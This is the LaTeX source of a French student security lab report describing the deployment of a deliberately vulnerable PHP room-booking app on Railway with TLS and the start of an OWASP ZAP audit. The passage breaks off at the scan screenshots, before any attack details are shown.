\documentclass[12pt,a4paper]{report}

% Packages
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[french]{babel}
\usepackage{geometry}
\usepackage{graphicx}
\usepackage{xcolor}
\usepackage{titlesec}
\usepackage{fancyhdr}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{booktabs}
\usepackage{enumitem}
\usepackage{tcolorbox}
\usepackage{float}
\usepackage{setspace}
\usepackage{array}
\usepackage{longtable}
\usepackage{colortbl}

% Page geometry
\geometry{top=2.5cm, bottom=2.5cm, left=3cm, right=2.5cm}

% Graphics path
\graphicspath{{captures/}}

% Colors
\definecolor{primaryblue}{RGB}{0, 80, 160}
\definecolor{secred}{RGB}{180, 30, 30}
\definecolor{lightgray}{RGB}{245, 245, 245}
\definecolor{darkgray}{RGB}{50, 50, 50}
\definecolor{successgreen}{RGB}{30, 140, 70}
\definecolor{codebg}{RGB}{248, 248, 248}

% Hyperref config
\hypersetup{
    colorlinks=true,
    linkcolor=primaryblue,
    urlcolor=primaryblue,
    citecolor=primaryblue
}

% Headers
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\small\textcolor{primaryblue}{\textbf{TP Sécurité Web}}}
\fancyhead[R]{\small\textcolor{darkgray}{Rapport de Projet}}
\fancyfoot[C]{\thepage}
\renewcommand{\headrulewidth}{0.4pt}

% Section styles
\titleformat{\chapter}[block]
  {\normalfont\LARGE\bfseries\color{primaryblue}}
  {\thechapter.}{12pt}{}
  [\vspace{2pt}\titlerule]

\titleformat{\section}
  {\normalfont\Large\bfseries\color{primaryblue}}
  {\thesection}{10pt}{}

\titleformat{\subsection}
  {\normalfont\large\bfseries\color{darkgray}}
  {\thesubsection}{8pt}{}

% Listings config
\lstset{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  breaklines=true,
  frame=single,
  rulecolor=\color{primaryblue!40},
  numbers=left,
  numberstyle=\tiny\color{gray},
  commentstyle=\color{successgreen},
  keywordstyle=\color{primaryblue}\bfseries,
  stringstyle=\color{secred},
  showstringspaces=false
}

% tcolorbox styles
\tcbuselibrary{skins,breakable}

\newtcolorbox{infobox}[1][]{
  colback=blue!5,
  colframe=primaryblue,
  fonttitle=\bfseries,
  title={#1}
}

\newtcolorbox{warningbox}[1][]{
  colback=red!5,
  colframe=secred,
  fonttitle=\bfseries,
  title={#1}
}

\newtcolorbox{successbox}[1][]{
  colback=green!5,
  colframe=successgreen,
  fonttitle=\bfseries,
  title={#1}
}

%-----------------------------------------------------------
\begin{document}

%=============================================================
% PAGE DE GARDE
%=============================================================
\begin{titlepage}
  \centering
  \vspace*{1.5cm}

  {\Large\textcolor{darkgray}{\textsc{Université Cadi Ayyad ---
  Faculté des Sciences Semlalia --- Marrakech}}}\\[0.4cm]
  {\large\textcolor{darkgray}{Sécurité des Systèmes d'Information}}\\[2cm]

  \noindent\rule{\textwidth}{1.5pt}\\[0.4cm]
  {\Huge\bfseries\textcolor{primaryblue}{Rapport de TP Sécurité}}\\[0.3cm]
  {\LARGE\textcolor{secred}{Déploiement, Audit \& Remédiation}}\\[0.4cm]
  \noindent\rule{\textwidth}{1.5pt}\\[2cm]

  \begin{minipage}{0.55\textwidth}
    \centering
    \begin{tcolorbox}[colback=lightgray, colframe=primaryblue, title={\bfseries Réalisé par}]
      \textbf{Étudiante 1 :} \quad Aziza Ziri\\[4pt]
      \textbf{Étudiant 2 :} \quad Youssef Alaoui
    \end{tcolorbox}
  \end{minipage}

  \vspace{1cm}

  \begin{minipage}{0.55\textwidth}
    \centering
    \begin{tcolorbox}[colback=lightgray, colframe=darkgray, title={\bfseries Encadrant}]
      \textbf{Pr.} Soukaina Mjahed
    \end{tcolorbox}
  \end{minipage}

  \vfill
  {\large\textcolor{darkgray}{Année Universitaire 2025--2026}}
\end{titlepage}

%=============================================================
% TABLE DES MATIÈRES
%=============================================================
\tableofcontents
\newpage

%=============================================================
% INTRODUCTION
%=============================================================
\chapter*{Introduction}
\addcontentsline{toc}{chapter}{Introduction}

Dans le cadre du module de sécurité des systèmes d'information, ce mini-projet a pour objectif
de mettre en pratique les notions apprises sur la sécurité des applications web. Le travail se
décompose en plusieurs étapes : choisir une application existante, la déployer sur une plateforme
cloud avec un certificat TLS, réaliser un audit de sécurité complet, détecter les vulnérabilités
par simulation d'attaques, puis y apporter les remédiations nécessaires.

L'application choisie est \textbf{Gestion des Salles}, une application web PHP de réservation
de salles pour une faculté, volontairement conçue avec des failles de sécurité à des fins
pédagogiques. Elle propose deux types de comptes : administrateur et enseignant.

\begin{infobox}[Application cible]
\textbf{URL de production :} \url{https://prjsecurity-production.up.railway.app/}\\
\textbf{Technologie :} PHP 8 --- MySQL --- Apache\\
\textbf{Plateforme de déploiement :} Railway (PaaS)
\end{infobox}


\newpage

%=============================================================
% CHAPITRE 1 : DÉPLOIEMENT
%=============================================================
\chapter{Déploiement de l'application sur Railway}

\section{Présentation de la plateforme Railway}

Railway est une plateforme cloud de type \textit{Platform as a Service} (PaaS) permettant de
déployer des applications directement depuis un dépôt GitHub. Elle offre une intégration continue,
une gestion automatique des environnements, ainsi que la génération automatique d'un certificat
TLS pour tout service déployé.

\begin{infobox}[Pourquoi Railway ?]
Railway a été choisie pour sa simplicité de configuration, son intégration native avec GitHub,
et surtout pour la fourniture automatique d'un certificat TLS valide sur le domaine public généré,
répondant ainsi à l'exigence du sujet.
\end{infobox}

\section{Étapes de déploiement}

\subsection{Connexion et autorisation GitHub}

La première étape consiste à connecter Railway à notre compte GitHub afin d'accéder
au dépôt de l'application \texttt{Prj\_security}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{p1.png}
  \caption{Autorisation de Railway App sur GitHub}
  \label{fig:p1}
\end{figure}

Comme le montre la figure~\ref{fig:p1}, Railway demande l'autorisation OAuth sur GitHub.
L'application Railway est un outil de confiance utilisé par plus de 1000 utilisateurs GitHub.

\subsection{Création d'un nouveau projet}

Après autorisation, nous créons un nouveau projet sur Railway en sélectionnant l'option
\textbf{GitHub Repository}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.72\textwidth]{p2.png}
  \caption{Interface de création d'un nouveau projet Railway}
  \label{fig:p2}
\end{figure}

\subsection{Configuration de l'accès au dépôt}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.65\textwidth]{p3.png}
  \caption{Aucun dépôt trouvé --- nécessité de configurer l'application GitHub Railway}
  \label{fig:p3}
\end{figure}

\subsection{Installation de Railway App et sélection du dépôt}

Nous sélectionnons uniquement le dépôt \texttt{Prj\_security} (option \textit{Only select
repositories}), conformément au principe du \textbf{moindre privilège}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{p4.png}
  \caption{Installation de Railway App --- sélection du dépôt uniquement}
  \label{fig:p4}
\end{figure}

\begin{warningbox}[Bonne pratique de sécurité]
En limitant l'accès à un seul dépôt plutôt qu'à tous les dépôts, on applique le principe du
\textbf{moindre privilège}, réduisant la surface d'attaque en cas de compromission du token Railway.
\end{warningbox}

\subsection{Tableau de bord et déploiement}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{p5.png}
  \caption{Tableau de bord Railway avant déploiement}
  \label{fig:p5}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth]{p6.png}
  \caption{Sélection du dépôt \texttt{Prj\_security} pour le déploiement}
  \label{fig:p6}
\end{figure}

\subsection{Application déployée et en ligne}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.5\textwidth]{p7.png}
  \caption{Application déployée avec succès --- statut \textit{Online}}
  \label{fig:p7}
\end{figure}

\subsection{Configuration réseau et certificat TLS}

Railway génère automatiquement un domaine public accessible via HTTPS grâce à un certificat
TLS provisionné par \textit{Let's Encrypt}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth]{p8.png}
  \caption{Configuration réseau --- domaine public avec TLS}
  \label{fig:p8}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.55\textwidth]{certificat_TLS.png}
  \caption{Certificat TLS valide --- délivré par Let's Encrypt pour le domaine Railway}
  \label{fig:tls}
\end{figure}

\begin{successbox}[Certificat TLS obtenu]
L'application est accessible en HTTPS sur \texttt{prjsecurity-production.up.railway.app}.
Le certificat est délivré par \textbf{Let's Encrypt}, valide 90 jours,
chiffrement \textbf{TLS 1.2/1.3}.
\end{successbox}

\section{Récapitulatif du déploiement}

\begin{table}[H]
  \centering
  \begin{tabular}{clc}
    \toprule
    \textbf{\#} & \textbf{Étape} & \textbf{Statut} \\
    \midrule
    1 & Connexion OAuth GitHub $\rightarrow$ Railway & \textcolor{successgreen}{\textbf{OK}} \\
    2 & Création projet Railway & \textcolor{successgreen}{\textbf{OK}} \\
    3 & Configuration accès dépôt (moindre privilège) & \textcolor{successgreen}{\textbf{OK}} \\
    4 & Déploiement de \texttt{Prj\_security} & \textcolor{successgreen}{\textbf{OK}} \\
    5 & Obtention certificat TLS (Let's Encrypt) & \textcolor{successgreen}{\textbf{OK}} \\
    6 & Application accessible en HTTPS & \textcolor{successgreen}{\textbf{OK}} \\
    \bottomrule
  \end{tabular}
  \caption{Récapitulatif des étapes de déploiement}
\end{table}

\newpage

%=============================================================
% CHAPITRE 2 : AUDIT DE SÉCURITÉ
%=============================================================
\chapter{Audit de Sécurité}

\section{Méthodologie d'audit}

L'audit de sécurité réalisé sur l'application suit une approche structurée inspirée des standards
\textbf{OWASP} (Open Web Application Security Project) :

\begin{enumerate}
  \item \textbf{Reconnaissance} : collecte d'informations sur l'application.
  \item \textbf{Analyse des en-têtes HTTP} : vérification des headers de sécurité.
  \item \textbf{Scan automatisé} : deux passes avec OWASP ZAP (scan passif puis actif).
  \item \textbf{Tests manuels} : simulation d'attaques SQLi, XSS, Broken Access Control, etc.
  \item \textbf{Analyse du code source} : revue statique pour identifier les failles.
\end{enumerate}

\section{Scan automatisé avec OWASP ZAP}

\textbf{OWASP ZAP} (Zed Attack Proxy) est un scanner de sécurité web open source. Nous avons
effectué \textbf{deux scans successifs} sur l'URL de production :

\begin{itemize}
  \item \textbf{1\textsuperscript{er} scan} : scan passif, limité aux pages publiques --- 11 alertes.
  \item \textbf{2\textsuperscript{e} scan} : scan actif avec fuzzing et injection --- \textbf{16 alertes réparties en 4 niveaux de risque}.
\end{itemize}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{ZAP_scan.png}
  \caption{Interface OWASP ZAP --- configuration du scan actif sur l'application}
  \label{fig:zap_gui}
\end{figure}

\begin{figure}[H]
  \centering
